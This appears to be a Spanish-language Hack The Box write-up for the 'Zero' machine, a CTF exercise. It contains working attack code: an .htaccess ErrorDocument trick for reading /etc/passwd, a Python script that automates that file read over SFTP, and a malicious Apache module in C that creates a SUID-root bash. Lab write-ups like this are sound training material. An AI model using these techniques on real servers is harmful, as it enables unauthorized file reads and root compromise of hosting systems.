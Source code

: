 ```yaml
---
layout: single
title: HTB: Zero
excerpt: "Zero es una máquina de Hack The Box centrada en el abuso de Apache y la explotación de configuraciones avanzadas. Aquí te muestro el proceso completo, desde el reconocimiento hasta la obtención de root."
date: 2025-09-21
classes: wide
header:
  teaser: /assets/images/htb-Zero/box-zero.webp
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Apache
  - Exploit
tags:
  - Apache
  - SFTP
  - Privilege Escalation
  - Linux
  - Root
  - CTF
---
```


<p align="center">
  <img src="/assets/images/htb-Zero/box-zero.webp" alt="Zero" style="height:150px;">
</p>

Zero es una máquina de Hack The Box donde el reto principal es abusar de la configuración de Apache en un entorno de hosting compartido. El objetivo es obtener acceso root explotando la gestión de procesos y la configuración personalizada del servidor web.

## Box Info

| Name         | [Zero](https://hackthebox.com/machines/zero) ![Zero](/assets/images/htb-Zero/box-zero.webp) |
|--------------|:---:|
| Release Date | 12 Aug 2025 |
| Retire Date  | 12 Aug 2025 |
| OS           | Linux ![Linux](/icons/Linux.png) |
| Base Points  | Insane [50] |
| Creator      | [jkr](https://app.hackthebox.com/users/77141) |

## Recon

### Escaneo Inicial

```console
nmap -p- -vvv --min-rate 10000 10.129.234.62
nmap -p 22,80 -sCV 10.129.234.62
```

Puertos abiertos: **22/SSH** y **80/HTTP**. El servidor corre Apache 2.4.41 sobre Ubuntu 20.04.

### Sitio Web

El sitio es un proveedor de hosting que permite subir archivos vía SFTP y solo sirve páginas HTML estáticas.

#### SFTP

Se obtiene acceso SFTP con las credenciales generadas en el registro. Dentro del directorio `public_html` se encuentra un archivo `.htaccess` controlado por root y un `index.html`.

#### Prueba de ejecución PHP

Al subir archivos `.php`, el servidor solo muestra el código fuente, no lo ejecuta.

#### Abuso de .htaccess para File Read

Se puede modificar `.htaccess` para leer archivos arbitrarios usando la directiva `ErrorDocument`:

```apache
Header always set X-Zero-Customer 'zro-de834d1c'
ErrorDocument 404 %{file:/etc/passwd}
```

Al solicitar un archivo inexistente, el contenido de `/etc/passwd` se muestra en la respuesta.

#### Script para automatizar File Read

```python
# Script para leer archivos usando el vector de .htaccess
import sys
import paramiko
import requests

if len(sys.argv) != 5:
    print(f"usage: {sys.argv[0]} <host> <username> <password> <file_to_read>")
    sys.exit(1)

host, username, password, target_file = sys.argv[1:5]

def write_file(host, username, password, content):
    ssh_client = paramiko.SSHClient()
    ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh_client.connect(hostname=host, port=22, username=username, password=password)
    sftp_client = ssh_client.open_sftp()
    target_path = "public_html/.htaccess"
    sftp_client.remove(target_path)
    with sftp_client.file(target_path, "wb") as remote_file:
        remote_file.write(content)

def read_file(host, username):
    resp = requests.get(f"http://{host}/~{username}/0xdf.whatever")
    assert resp.status_code == 404
    return resp.text

htcontent = f"ErrorDocument 404 %{{file:{target_file}}}".encode()
write_file(host, username, password, htcontent)
print(read_file(host, username))
```

## Escalada de Privilegios

### Enumeración

Al obtener acceso SSH como `zroadmin` (credenciales extraídas de la base de datos), se observa que existen scripts ejecutados por root cada minuto, incluyendo `/usr/local/bin/zro.web-confcheck`.

### Abuso de procesos y apache2ctl

Se puede crear un proceso falso que simule ser Apache con argumentos controlados, y así manipular la ejecución de `apache2ctl` para incluir archivos arbitrarios o cargar módulos maliciosos.

#### Ejemplo de proceso falso en Python

```python
import os
os.execv('/bin/sleep', ['/opt/zroweb/sbin/apache2 -k start -d /opt/zroweb/conf -d /dev/shm/fileread -E /dev/shm/fileread.log -c', "223"])
```

#### Ejemplo de módulo malicioso en C

```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"

static void myinit(apr_pool_t *p, server_rec *s) {
    system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf");
}

module AP_MODULE_DECLARE_DATA mymodule = {
    STANDARD20_MODULE_STUFF,
    NULL, NULL, NULL, NULL, NULL, NULL
};

__attribute__((constructor))
static void _init() { myinit(NULL, NULL); }
```

Compilar y cargar este módulo permite obtener una shell root vía bash SUID.

## Conclusión

Zero es una máquina avanzada que explota la gestión de procesos y la configuración de Apache para lograr la escalada de privilegios. El reto principal es la creatividad para abusar de `.htaccess`, procesos y módulos personalizados.

---

**¿Te gustó el writeup?**  
Puedes ver la resolución completa en mi canal de YouTube:  
[Máquina Zero - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)